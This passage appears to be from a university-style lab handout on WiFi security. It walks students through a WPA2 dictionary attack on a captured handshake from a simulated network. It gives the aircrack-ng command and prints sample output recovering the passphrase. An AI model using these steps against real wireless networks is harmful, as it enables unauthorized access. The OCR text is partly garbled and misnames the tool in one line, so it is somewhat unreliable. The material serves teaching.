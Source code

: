  Press Ctrl-c to stop
airodump. Airodump has created several files namedfilepsk*, among them there should be a file named
filepsk-01.cap containing the traffic just captured by airodump.

At this point, imagine to be an attacker that wants to perform a dictionary attack on the traffic intercepted
with airodump. Create your own dictionary, by creating a file nameddictionary.txt, and insert in this file
possible passwords (one per line), and see the result (we advice to insert also some pretty common ones, like
“qwerty”, “ 12345 ” “123456789a” “qwertyuiop” (who knows, maybe is one of that...).

Next, insta3launch a dictionary attack withairodump, by executing the command:

```
aircrack-ng -w dictionary.txt filepsk-01.cap
```
If you are lucky, you may see an output similar to the one shown in Fig. 9, indicating that you have found the
right key!


Figure 9: Result of the dictionary attack.

```
Reading packets, please wait...
Opening wpa2_dictionary_attack-01.cap
Read 48 packets.

   #  BSSID              ESSID                     Encryption

   1  02:00:00:00:03:00  simplewifi                WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening wpa2_dictionary_attack-01.cap
Read 48 packets.

1 potential targets
Aircrack-ng 1.6
[00:00:00] 2/4 keys tested (147.97 k/s)
Current passphrase: 123456789a                 
Master Key     :  E0 3D DC 8E 51 FB 0A 35 A6 EE 6D DF 9B 6B 69 EB
                  E8 C0 7B D2 50 95 63 A7 26 43 DD B2 0F 46 E6 21

Transient Key  :  98 E3 74 A4 21 CD B7 88 7E AC 60 E1 DD 65 68 64 
                  CD 8D C5 25 31 EF FD 4F D2 A6 0A 81 A0 44 78 DB 
                  26 6A 27 C0 10 7A 77 AA CD AE 38 92 A5 2E 0E BB 
                  09 B1 0C 3A 83 99 44 98 3F 94 69 39 69 00 00 00
                  
EAPOL HMAC     :  23 7E D5 87 3D FA 9E 66 CA 65 E4 2E C8 7C 09 98 

KEY FOUND! [ 123456789a ]
```
